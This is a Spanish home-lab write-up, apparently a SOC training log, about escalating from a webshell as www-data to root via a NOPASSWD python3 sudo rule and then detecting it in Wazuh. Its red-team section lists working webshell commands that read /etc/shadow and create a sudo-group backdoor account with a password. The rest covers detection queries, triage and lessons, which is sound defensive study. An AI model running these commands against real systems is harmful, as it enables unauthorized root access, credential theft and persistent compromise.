

# Día 4 — Escalada de Privilegios y Backdoor

**Fecha:** 2026-07-08
**Fase:** 2 — Detección y triage

## Objetivo

Ejecutar una escalada de privilegios desde `www-data` → `root` explotando una sudo misconfiguration deliberada. Documentar la cadena completa de detección en Wazuh.

## Entorno

- Wazuh 4.14.6 (Docker single-node: indexer + manager + dashboard).
- Agentes: `Ubuntu-Victim` (Ubuntu 25.10) — Active, `MacBook-M1` (macOS) — Active.
- Módulos usados: Threat Hunting → Events.
- Atacante: `Ancla-Kali` (`192.168.1.132`).
- Objetivo: Ubuntu-Victim (`192.168.1.96`) con webshell activo del Día 3.

## MITRE ATT&CK

| Táctica | Técnica | ID | Herramienta / Acción |
|---|---|---|---|
| Execution | Command and Scripting Interpreter: Unix Shell | T1059.004 | Webshell `?cmd=` |
| Privilege Escalation | Abuse Elevation Control Mechanism: Sudo and Sudo Caching | T1548.003 | `sudo python3 -c 'import os; os.system("id")'` |
| Persistence | Create Account: Local Account | T1136.001 | `useradd backdoor` |
| Discovery | System Information Discovery | T1082 | `id`, `uname`, `hostname`, `ip addr`, `cat /etc/shadow` |

## Ejecución (Red)

Partiendo del webshell activo del Día 3 (acceso como `www-data`), se verificó que `www-data` tenía permiso de ejecutar `python3` como root sin contraseña (`sudo -l`). Se escalaron privilegios explotando esa misconfiguration con `sudo python3 -c 'import os; os.system("id")'`, obteniendo `uid=0(root)`. Desde root se ejecutaron comandos de Discovery (`id`, `whoami`, `hostname`, `uname -a`, `cat /etc/shadow`, `ip addr`). Finalmente se instaló un usuario backdoor (`useradd backdoor`) con `shell=/bin/bash`, miembro del grupo sudo, y se configuraron sus credenciales con `chpasswd`.

**Misconfiguration explotada:**
```
www-data ALL=(ALL) NOPASSWD: /usr/bin/python3
```

**Comandos de escalada:**
```bash
# Verificar misconfiguration desde el webshell
?cmd=sudo -l

# Escalada a root
?cmd=sudo python3 -c 'import os; os.system("id")'
# Respuesta: uid=0(root) gid=0(root) groups=0(root)

# Discovery como root
?cmd=sudo python3 -c 'import os; [os.system(c) for c in ["id","whoami","hostname","uname -a","cat /etc/shadow | head -3","ip addr | grep 192"]]'

# Backdoor
?cmd=sudo python3 -c 'import os; os.system("useradd -m -s /bin/bash -G sudo backdoor && echo backdoor:B4ckd00r.2026 | chpasswd")'
```

## Consulta

Módulo Threat Hunting → Events. Flujo de investigación realista — de lo general a lo específico, sin saber de antemano qué había pasado:

```
# 1. Punto de entrada — visión general sin suposiciones
agent.name: "Ubuntu-Victim"

# 2. Filtrar la señal — eventos que merecen atención
agent.name: "Ubuntu-Victim" and rule.level > 7

# 3. Los más graves
agent.name: "Ubuntu-Victim" and rule.level > 11

# 4. Técnica MITRE sospechosa — lo que llamó la atención
agent.name: "Ubuntu-Victim" and rule.mitre.technique: "Create Account"

# 5. Vector de entrada — confirmar cómo llegó el atacante
agent.name: "Ubuntu-Victim" and rule.id: 31106
```

**Eventos clave observados (ventana 00:55:41 — 240ms):**

| rule.id | Nivel | Descripción | Significado |
|---|---|---|---|
| 31106 | 6 | A web attack returned code 200 | Webshell ejecutado — punto de entrada |
| 5501 | 3 | PAM: Login session opened | Sesión abierta por el proceso del webshell |
| 5402 | 3 | Successful sudo to ROOT executed | Escalada de privilegios confirmada |
| 5901 | 8 | New group added to the system | Grupo `backdoor` creado automáticamente |
| 5902 | 8 | New user added to the system | Usuario `backdoor` instalado |
| 5555 | 3 | PAM: User changed password | Contraseña del backdoor configurada |
| 5502 | 3 | PAM: Login session closed | Sesión cerrada — backdoor activo y persistente |

## Gráficos

Dos donas: distribución de eventos en un día normal vs. los 240ms del ataque:



## Triage

**Clasificación:** Verdadero positivo (VP).

**Hallazgo más crítico:** el usuario `backdoor` instalado con `shell=/bin/bash` y miembro del grupo `sudo`. La escalada fue un evento puntual que terminó en segundos; el backdoor es **persistencia activa** — el atacante puede volver en cualquier momento con credenciales propias, sin repetir el exploit y sin necesitar el webshell. Mientras el usuario exista, el servidor sigue comprometido.

**¿Escala a L2? Sí — P1 (crítico).** Servidor con compromiso activo confirmado: acceso root obtenido, backdoor persistente instalado, credenciales del atacante presentes en el sistema. Requiere contención inmediata y análisis forense que excede el alcance de L1.

## Hallazgos / IOCs

```
# Confirmado desde Wazuh (L1)
IP atacante:         192.168.1.132 (Kali)
URL del webshell:    /wp-content/uploads/2026/07/ewd-feup-user-uploads/gpcDDZYih2shell.php
Usuario backdoor:    backdoor (UID=1002, GID=1002, shell=/bin/bash, grupo sudo)
Timestamp ataque:    2026-07-08 00:55:41 UTC (duración: 240ms)
Reglas disparadas:   31106, 5402, 5901, 5902, 5555

# Requiere investigación L2
Comandos ejecutados: Pendiente — análisis forense completo del webshell
Otros artefactos:    Pendiente — verificar archivos adicionales creados como root
Exfiltración:        Pendiente — /etc/shadow fue leído; evaluar impacto
```

## Notas

- Los 7 eventos del ataque ocurrieron en **240 milisegundos** — la firma temporal de un ataque automatizado. Un ataque manual de un humano tardaría minutos entre pasos; la velocidad es en sí misma un indicador de compromiso.
- El evento más crítico (`rule.id 5902` — New user added) tiene **nivel 8 (Medium)**. Si un analista filtrara solo por High/Critical, se perdería la detección más importante. La severidad de la regla no equivale a la severidad del incidente.
- El análisis se realizó de forma **realista** — sin saber de antemano qué había pasado. El hallazgo del backdoor se llegó siguiendo la evidencia: Overview → High alerts → "Create Account" en MITRE → expandir evento → `data.dstuser: backdoor`.
- Los **2 eventos de nivel 12** (cola del agente saturada) fueron generados por el cron job malicioso `cleanup.sh` del backdoor previo — no por el ataque del Día 4 directamente. Un analista los investigaría como hallazgo secundario.

## Lecciones

- El flujo de investigación correcto va de lo general a lo específico: visión general → filtrar por nivel → técnica MITRE sospechosa → expandir el evento → confirmar. Ese método funciona en cualquier SIEM.
- Una sudo misconfiguration de una sola línea (`www-data ALL=(ALL) NOPASSWD: /usr/bin/python3`) fue suficiente para escalar de un proceso web sin privilegios a root completo. El hardening de sudoers es crítico en servidores web.
- El hallazgo más importante del día no fue el más ruidoso — fue un evento de nivel 8 entre decenas de nivel 3. Saber dónde mirar importa más que el volumen de alertas.
